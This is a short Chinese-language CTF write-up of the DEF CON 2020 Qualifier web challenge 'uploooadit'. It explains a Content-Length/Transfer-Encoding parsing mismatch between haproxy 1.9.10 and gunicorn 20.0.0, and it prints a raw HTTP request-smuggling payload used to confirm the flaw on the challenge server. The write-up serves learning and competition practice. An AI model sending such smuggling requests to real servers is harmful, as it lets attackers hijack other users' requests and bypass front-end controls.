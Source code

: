 Title = "Defcon CTF Qual 2020  writeup "

description = "Defcon 2020 Qual 的 web"

tags = ["CTF","Web"] 

publishtime = 2020-05-21T00:03:54 
lastedittime = 2020-05-21T00:03:54 
uuid = "b21e18dd-0a44-4b99-81e1-ad9c76e4c43f"
-+_+-



## uploooadit



题目环境：

> server: gunicorn/20.0.0
>
> via: haproxy
>
> lib:  boto3  flask

https://nathandavison.com/blog/haproxy-http-request-smuggling

https://www.cnblogs.com/icez/p/haproxy_http_request_smuggling.html

找了一下 gunicorn 与 haproxy 是存在 CL 与 TE 之间解析差异的，这就导致了 smuggling 。

具体情况应该是 在 haproxy 的时候是按 CL 解析的，然后好像在发往backend  gunicorn 的时候把 CL抛弃了，只留下 TE，到达 backend 以后是优先按 TE

通过使其 `time out` 或者 `openssl s_client -connect uploooadit.oooverflow.io:443` 报错得到 haproxy  的版本 1.9.10

https://github.com/benoitc/gunicorn/releases

查看releases 知道 gunicorn 的 fix 在 20.0.1，因此 20.0.0 是仍然存在 smuggling 的。

通过下面这个确认存在 CL-TE smuggling

```
POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
X-guid: 99999999-9999-9999-9999-999999999992
Content-Type: text/plain
Transfer-Encoding: chunked
Content-Length: 92

0

ET /files/99999999-9999-9999-9999-999999999990 HTTP/1.1
Host: uploooadit.oooverflow.io


```

